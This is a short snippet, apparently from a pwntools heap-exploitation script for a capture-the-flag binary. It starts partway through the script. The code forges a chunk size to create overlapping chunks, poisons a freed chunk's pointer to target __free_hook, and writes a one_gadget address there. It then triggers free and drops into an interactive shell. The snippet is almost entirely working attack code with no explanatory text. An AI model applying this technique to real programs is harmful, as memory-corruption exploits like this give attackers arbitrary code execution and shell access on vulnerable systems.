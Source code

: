```c
add(12, 0x38)

  

free(12)

edit(10, b'b'*0x38 + p8(0x71))#change the chunk size of 11 to 0x71

  

free(11)

  

add(11, 0x68)

  

edit(11, b'c'*0x38 + p64(41) + p64(free_hook))

  

add(12, 0x38)

  

add(13, 0x38)

  

edit(13, p64(one_gadget))

gdb.attach(file)

  

show(13)

print(hex(one_gadget))

# edit(12, b'/bin/sh\x00\x00')

  

free(1)

  
  
  

file.interactive()
```
